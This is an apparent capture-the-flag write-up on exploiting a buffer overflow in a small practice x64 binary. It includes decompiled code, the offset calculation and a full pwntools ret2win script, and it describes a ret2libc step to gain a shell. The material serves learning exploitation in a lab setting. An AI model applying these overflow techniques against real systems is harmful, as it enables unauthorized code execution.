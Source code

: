 <h3> Binary Exploitation </h3>

#### This is a binary a friend of mine gave me and i decided to do it and it turns out pretty easy

#### Basic File Checks
![image](https://user-images.githubusercontent.com/127159644/227796080-4c7a83aa-bfbd-4e3f-8bc4-e9822a3f1219.png)

We can see its a x64 binary and the only protection enabled is `NX enabled`

I'll run the binary to know what it does

```
➜  ~ ./chall 
I ask you what your heart desire ? 
lol
I hear the secrets that you keep ! 
yea
➜  ~ 
```

Nothing really much happening here

So using ghidra i'll decompile the binary
![image](https://user-images.githubusercontent.com/127159644/227796173-66383c20-474c-4287-82c4-f03d817e7f78.png)

There's also a flag function in it but the flag is redacted
![image](https://user-images.githubusercontent.com/127159644/227796226-19541dc4-1ea3-4bc1-ae3d-c5bb3126b0a1.png)

So for this the task was 2 the first one was to get the flag while the second was to get shell

Getting the flag is basically just going to have to do with ret2win

Here's the main function

```
undefined8 main(void)

{
  undefined buf [24];
  void *local_10;
  
  disable_buffering();
  local_10 = mmap((void *)0x1337000,0x1000,7,0x22,0,0);
  puts("I ask you what your heart desire ? ");
  read(0,local_10,128);
  puts("I hear the secrets that you keep ! ");
  read(0,buf,128);
  return 0;
}
```

Looking at it since it doesn't do much we can spot the vulnerability already

```
read(0,buf,128);
```

It's reading 128 bytes into a buffer that can only hold up 24 bytes so this is a buffer overflow

Lets now perform the exploitation

#### Ret2Win Exploitation

First we need the offset needed to hijack the rip register
![image](https://user-images.githubusercontent.com/127159644/227796422-e7968080-3ae3-4bcc-943b-1effad48a96b.png)
![image](https://user-images.githubusercontent.com/127159644/227796452-5e6fb05a-e02f-449a-921a-bcccf7c010c9.png)

So the offset is `40` with this performing the ret2win should be straight forward

We just need the adderss of the flag function which can be gotten from gdb or ghidra
![image](https://user-images.githubusercontent.com/127159644/227796531-748320a3-0b21-45e1-a582-268c35e16423.png)

Now here's the solve script for performing the ret2win

```
from pwn import *
import warnings

io = process('./chall')
warnings.filterwarnings('ignore')

offset = 40
padding = b'B'*offset
addr = p64(0x00000000004011fb)

payload = padding + addr

io.send('lol')
io.sendline(payload)
#io.interactive()
io.recvline()
io.recvline()
flag = io.recvline()
success(flag)
```

Running it works
![image](https://user-images.githubusercontent.com/127159644/227796637-a2954788-2a4d-4606-832d-1930ec1736fb.png)

Now for the second part of the challenge which is getting shell here's what i did

I just performed a ret2libc

Why i did that was because during the program execution the global offset table of puts is already populated
![image](https://user-images.githubusercontent.com/127159644/227796788-4ec19eae-2ec5-4270-8a2c-867a12423f64.png)
![image](https://user-images.githubusercontent.com/127159644/227796802-3606b946-5b94-4b06-b63e-8e2cee7ccc00.png)
![image](https://user-images.githubusercontent.com/127159644/227796813-d73bb565-1b40-4140-b827-49a15fa2b491.png)

Here's my solve script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/practice/accessdenied/solve.py)

Running it works
![image](https://user-images.githubusercontent.com/127159644/227796869-69662796-a767-4418-9d59-9efd1121fcde.png)
